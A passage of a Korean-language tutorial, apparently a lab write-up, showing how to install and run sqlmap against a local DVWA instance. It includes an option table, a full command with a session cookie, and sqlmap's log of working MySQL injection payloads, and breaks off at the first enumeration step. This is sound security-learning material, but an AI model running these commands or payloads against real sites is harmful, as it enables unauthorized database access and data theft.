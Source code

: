 ```shell
sudo apt install sqlmap
```

설치는 아주 simple하다.

<br>

| 옵션                | 설명                                                         |
| ------------------- | ------------------------------------------------------------ |
| -u [URL]            | DB 정보가 존재하는 웹 페이지의 URL 정보                      |
| --cookie            | HTTP 통신 시 사용되는 쿠키 헤더 값 (로그인해서 풀어야 하는 문제일 경우) |
| -p [파라미터값]     | 전달하는 인자명 (ex. id,pw ...)                              |
| --current-db        | 현재 데이터베이스 출력                                       |
| --dbs               | 데이터베이스 목록 찾기                                       |
| --tables            | 테이블 목록 찾기                                             |
| --columns           | 컬럼 목록 찾기                                               |
| -D [데이터베이스명] | 특정 데이터 베이스 대상 탐색                                 |
| -T [테이블명]       | 특정 테이블 대상 탐색                                        |
| -C [컬럼명]         | 특정 컬럼 대상 탐색                                          |
| --dump              | 덤프를                                                       |

<br>

가장 기본적인 sqlmap 구문을 사용해보자

```bash
sqlmap -u "http://192.168.3.128/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=mgf249ms3gbccu03eppvk3vuic; security=low"
```

![image-20220522150244289](../img/image-20220522150244289.png)

y 만 눌러주면 자기 혼자 다 해버리더니 취약한 부분을 탐색해주었다

```
minishell@ubuntu:~/.sqlmap/output/192.168.3.128$ cat log
sqlmap identified the following injection point(s) with a total of 3426 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 5411=5411 AND 'ixmN'='ixmN&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
Payload: id=1' AND (SELECT 9281 FROM(SELECT COUNT(*),CONCAT(0x7178707a71,(SELECT (ELT(9281=9281,1))),0x71716a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'IHMZ'='IHMZ&Submit=Submit
    
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 4101 FROM (SELECT(SLEEP(5)))pSGC) AND 'fmpx'='fmpx&Submit=Submit
---
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
```

앞서 sql 문제를 풀듯이 단계별로 알아나가보자.
1.데이터베이스의 이름 확인하기
